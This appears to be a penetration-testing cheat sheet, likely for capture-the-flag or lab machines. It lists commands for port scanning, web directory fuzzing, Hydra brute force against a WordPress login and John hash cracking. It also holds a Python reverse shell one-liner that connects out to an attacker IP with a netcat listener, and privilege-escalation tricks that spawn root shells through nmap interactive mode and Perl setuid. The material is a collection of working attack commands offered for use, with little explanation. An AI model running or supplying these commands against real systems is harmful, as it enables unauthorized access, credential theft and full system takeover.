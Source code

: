 # Port Enumeration

## NMAP
```bash
mkdir -p scans/nmap
nmap -v -sC -sV -oN scans/nmap/initial $IP
nmap -v -p- -oN scans/nmap/all_ports $IP
```





# Web Tools

## Gobuster
```bash
mkdir -p scans/gobuster
gobuster dir -u http://$IP -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -o scans/gobuster/medium_list -x php,sh,cgi,txt,html,js,css,py
```

## Nikto
```bash
mkdir nikto
nikto -h http://$IP | tee nikto/results
```

## FUFF
```bash
fuff -u http://$IP/FUZZ -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt
```


# Brute Force

## Hydra
```bash
# Format
# sudo hydra -L <Username/List> -P <Password/List> <IP> <Method> "<Path>:<RequestBody>:<IncorrectVerbiage>"

sudo hydra -l Username -P passwordlist.txt $IP http-post-form "/wp-login.php:log=^USER^&pwd=^PASS^:ERROR"
```

## John
```bash
john --wordlist=/usr/share/wordlist/rockyou.txt --format=Raw-MD5 hash.txt
```





# Reverse Shell

## Python
```bash
python3 -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.8.30.23",9999));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```

## Netcat
```bash
nc -lvnp 9999
```

## Stable
```bash
python3 -c 'import pty; pty.spawn("/bin/bash")'
```






# Privilege Escalation

## Finding SUID
```bash
find / -perm -u=s -type f 2> /dev/null
```

## Finding Capabilities
```bash
getcap -r / 2>/dev/null
```

## Tools

### NMAP
```bash
nmap --interactive
!sh
```

### PERL - Capabilities
```bash
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```




# Image tools

## STEGHIDE
```bash
steghide extract -sf image.jpg
```



# Useful Websites
- https://gtfobins.github.io/
- https://github.com/JohnHammond/poor-mans-pentest
- https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet
